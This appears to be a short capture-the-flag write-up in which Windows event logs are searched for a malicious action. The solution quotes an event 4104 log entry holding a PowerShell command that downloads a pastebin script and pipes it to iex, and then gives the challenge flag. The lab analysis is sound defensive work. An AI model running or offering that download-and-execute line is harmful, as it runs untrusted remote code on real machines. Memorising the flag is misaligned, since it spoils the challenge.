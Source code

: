 # Dangerous Events

300 Points

Our team has been provided with some windows event logs.
Looks like someone tried to execute something malicious.
Can you find it?

### Solution

ON event ID 4104, we can see that we have some powershell command that is trying to download a file from pastebin and execute it.


```json
// line 11730
{   "EventID": 4104,
    "Message": "Executing PowerShell command: iwr -Uri https://pastebin.com/raw/w3B10p2h -UseBasicParsing | iex",
} 
```

flag:
`CSC25{C0mm4nd_&_COntr0I_4tt3MpT}`
